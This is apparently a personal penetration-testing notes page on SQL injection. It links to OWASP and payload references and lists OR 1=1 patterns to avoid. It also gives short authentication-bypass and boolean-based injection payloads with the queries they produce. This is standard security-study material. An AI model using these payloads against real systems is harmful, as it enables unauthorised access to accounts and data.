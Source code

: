 ```yaml
---
id: SQL-injection
aliases:
  - SQLi
tags:
  - SQL
  - SQLi
links: "[[SQL]]"
---
```


# SQL injection

## Resourcers

- [OWASP - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [TCM Security - Avoid OR 1=1](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)
- [GitHub - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-remote-code-execution)

## DO NOT USE

```sql
# OR <true>
OR 1=1
' OR '1'='1
```

## Payloads

<!-- Payloads {{{-->
<details>
  <summary><b>Authentication bypass</b></summary>

```sql
admin'; -- -
```
```sql
SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
```

</details>

___
<!-- }}} -->

<!-- Boolean {{{-->
<details>
  <summary><b>Boolean</b></summary>

```sql
admin' AND '1'='1 / ' AND '1'='2
```
```sql
SELECT * FROM articles WHERE author = 'admin' AND '1'='1'
```

</details>

___
<!-- }}} -->
